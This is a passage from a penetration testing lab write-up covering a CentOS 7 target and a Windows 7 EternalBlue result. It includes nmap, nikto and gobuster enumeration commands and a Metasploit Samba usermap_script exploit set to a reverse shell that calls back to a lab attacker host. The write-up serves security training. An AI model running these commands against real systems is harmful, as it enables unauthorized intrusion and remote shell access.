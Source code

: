 ### Notes
- Always test exploits in a lab. EternalBlue targets unpatched Windows systems — patching is the primary mitigation.
- Include screenshots of `sysinfo` and `whoami` outputs (redact any sensitive lab-only data if publishing).

---

## Target 2 — CentOS 7 (192.168.2.20)

### Summary
- **Open ports:** 22 (SSH), 80 (HTTP), 139/445 (Samba)  
- **Findings:** Outdated Apache (`2.4.6`) and PHP (`5.4.16`), TRACE method enabled, `/reports/` directory listing found  
- **Enumerations used:** `nikto`, `gobuster`  
- **Exploits attempted:** `exploit/multi/samba/usermap_script`, `exploit/linux/samba/is_known_pipename` (both failed)

### Key commands (examples)
```bash
# nmap
nmap -sV 192.168.2.20

# nikto web scan
nikto -h http://192.168.2.20

# directory brute-force
gobuster dir -u http://192.168.2.20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# attempted Samba exploit (example)
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.2.20
set LHOST 192.168.2.128
set PAYLOAD cmd/unix/reverse
run
```

### Notes
- Even when remote code execution fails, enumeration results (directory listings, outdated components) are valuable and may lead to other attack vectors (file disclosure, LFI/RCE via web apps, weak SSH credentials).

---

## Results & Evidence
- See `Penetration_Testing_Report.pdf` for full screenshots and step-by-step evidence.
- Key result: Root/system access to Windows 7 via EternalBlue (meterpreter session).  
- CentOS: informative enumeration; Samba exploits attempted but no shell obtained.

---